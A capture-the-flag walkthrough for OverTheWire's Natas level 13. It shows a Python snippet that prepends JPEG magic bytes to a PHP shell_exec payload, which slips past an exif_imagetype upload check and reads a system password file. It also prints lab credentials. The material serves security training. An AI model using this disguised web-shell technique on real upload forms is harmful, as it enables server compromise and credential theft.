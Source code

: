 # Natas Level 13
The ***URL*** to which you need to connect is *http://natas13.natas.labs.overthewire.org*. The ***username*** is *natas13* and the ***password*** is *jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY*. 

Lets check the [viewsource](http://natas13.natas.labs.overthewire.org/index-source.html) link.
By analyzing the php script in the source code We see a exif_imagetype bypass. So Lets make a php file with a jpeg signature "\xFF\xD8\xFF\xE0"

```Python
fh = open('script.php', 'w')
fh.write('\xFF\xD8\xFF\xE0' + '<? echo shell_exec("cat /etc/natas_webpass/natas14"); ?>')
fh.close()
```
And we change the extension like we did in [Level12](https://github.com/Reda-BELHAJ/OverTheWire/blob/main/Natas/Natas10-20/Level12.md)
```
The password for natas14 is Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```
